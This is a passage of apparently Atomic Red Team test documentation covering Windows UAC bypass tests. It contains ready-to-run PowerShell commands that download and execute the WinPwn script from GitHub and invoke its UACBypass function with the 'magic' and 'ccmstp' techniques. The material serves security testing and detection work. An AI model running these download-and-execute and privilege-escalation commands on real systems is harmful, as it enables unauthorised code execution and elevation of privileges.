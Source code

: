 ```powershell
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```




<br/>
<br/>

## Atomic Test #18 - WinPwn - UAC Magic
UAC bypass using Magic technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 964d8bf8-37bc-4fd3-ba36-ad13761ebbcc






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique magic
```






<br/>
<br/>

## Atomic Test #19 - WinPwn - UAC Bypass ccmstp technique
UAC bypass using ccmstp technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** f3c145f9-3c8d-422c-bd99-296a17a8f567






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\calc.exe" -technique ccmstp
```
